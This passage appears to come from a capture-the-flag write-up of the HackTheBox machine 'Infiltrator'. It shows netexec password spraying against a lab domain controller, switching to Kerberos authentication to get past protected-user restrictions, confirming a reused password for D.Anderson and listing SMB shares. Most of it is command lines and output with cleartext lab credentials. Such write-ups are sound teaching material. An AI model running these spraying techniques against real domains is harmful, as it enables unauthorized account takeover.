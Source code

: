 Still only L.Clark is successful, but I’ll notice for both passwords that two users, D.Anderson and M.Harris, return `STATUS_ACCOUNT_RESTRICTION` (marked by a purple `[-]`). This status can mean that the user [is in the Protected Users Group](https://blog.whiteflag.io/blog/protected-users-you-thought-you-were-safe/), which doesn’t allow NTLM authentication

I’ll try again with `-k`:

```

oxdf@hacky$ netexec smb infiltrator.htb -u valid_usernames.txt -p passwords --continue-on-success -k
SMB         infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         infiltrator.htb 445    DC01             [+] infiltrator.htb\D.anderson:WAT?watismypass! 
SMB         infiltrator.htb 445    DC01             [+] infiltrator.htb\L.clark:WAT?watismypass! 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\M.harris:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\O.martinez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\A.walker:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\K.turner:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\E.rodriguez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\winrm_svc:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\lan_managment:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\M.harris:MessengerApp@Pass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\O.martinez:MessengerApp@Pass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\A.walker:MessengerApp@Pass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\K.turner:MessengerApp@Pass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\E.rodriguez:MessengerApp@Pass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\winrm_svc:MessengerApp@Pass! KDC_ERR_PREAUTH_FAILED 
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\lan_managment:MessengerApp@Pass! KDC_ERR_PREAUTH_FAILED

```

D.Anderson uses the same password!

#### Validate Password

The password works, but nothing new on SMB:

```

oxdf@hacky$ netexec smb infiltrator.htb -u d.anderson -p 'WAT?watismypass!' -k --shares
SMB         infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         infiltrator.htb 445    DC01             [+] infiltrator.htb\d.anderson:WAT?watismypass! 
SMB         infiltrator.htb 445    DC01             [*] Enumerated shares
SMB         infiltrator.htb 445    DC01             Share           Permissions     Remark
SMB         infiltrator.htb 445    DC01             -----           -----------     ------
SMB         infiltrator.htb 445    DC01             ADMIN$                          Remote Admin
SMB         infiltrator.htb 445    DC01             C$                              Default share
SMB         infiltrator.htb 445    DC01             IPC$            READ            Remote IPC
```